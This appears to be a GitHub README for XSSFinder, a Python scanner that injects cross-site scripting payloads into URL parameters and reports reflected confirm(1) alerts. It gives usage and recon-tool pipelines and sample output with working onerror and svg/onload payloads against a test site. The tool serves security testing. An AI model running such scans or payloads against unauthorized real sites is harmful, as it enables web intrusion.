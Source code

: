 # XSSFinder
 
# XSSFinder

A Light Weight Tool for checking Cross Site Scripting (XSS) vulnerabilities by replacing xss payloads in the parameters values and checking 'confirm(1),prompt(1),alert(1)' in the response.

## Installation
```
git clone https://github.com/rix4uni/XSSFinder.git
cd XSSFinder
#pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 xssfinder.py
```

Multiple URLs:
```
cat xss-urls.txt | python3 xssfinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf xss | uro | anew | python3 xssfinder.py --threads 50
echo "http://testphp.vulnweb.com" | waybackurls | gf xss | uro | anew xss-urls.txt # use this output in Multiple URLs
```
## To get best results
```
open xss_payloads.txt add your favraioute payloads
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all xsspayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=<img src=x onerror=confirm(1)>&cat=<img src=x onerror=confirm(1)>
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file="><img src=x onerror=confirm(1)>&cat="><img src=x onerror=confirm(1)>
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file="><svg/onload=confirm(1)>&cat="><svg/onload=confirm(1)>
```
